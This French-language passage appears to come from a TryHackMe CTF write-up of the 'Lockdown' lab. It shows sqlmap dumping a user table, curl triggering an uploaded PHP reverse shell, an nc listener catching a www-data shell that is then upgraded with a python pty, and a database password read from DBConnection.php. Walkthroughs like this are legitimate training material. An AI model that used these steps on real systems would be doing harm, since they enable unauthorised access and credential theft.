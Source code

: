 Le chemin de ne fonctionne pas, le fichier est surement renommé.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r input.req --dump --flush
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:48:28 /20Lockdown
uploads/1636062420_reverseShell.php
[23:16:31] [INFO] retrieved: 2Database: cts_db
...
+----+-------------------------------------+----------+----------+----------+--------------+---------------------+------------+---------------------+
| id | avatar                              | lastname | password | username | firstname    | date_added          | last_login | date_updated        |
+----+-------------------------------------+----------+----------+----------+--------------+---------------------+------------+---------------------+
| 1  | uploads/1636062420_reverseShell.php | Admin    | <blank>  | admin    | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2021-11-04 21:47:54 |
+----+-------------------------------------+----------+----------+----------+--------------+---------------------+------------+---------------------+
```

On trouve le chemin de notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://lockdown.thm/uploads/1636062420_reverseShell.php
```

On exécute notre reverse shell.   


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:29:42 up  3:17,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (1053): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@lockdown:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@lockdown:/$ cd /var/www/html
cd /var/www/html/classes/

cat /var/www/html/classes/DBConnection.php
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';
    private $database = 'cts_db';
    
```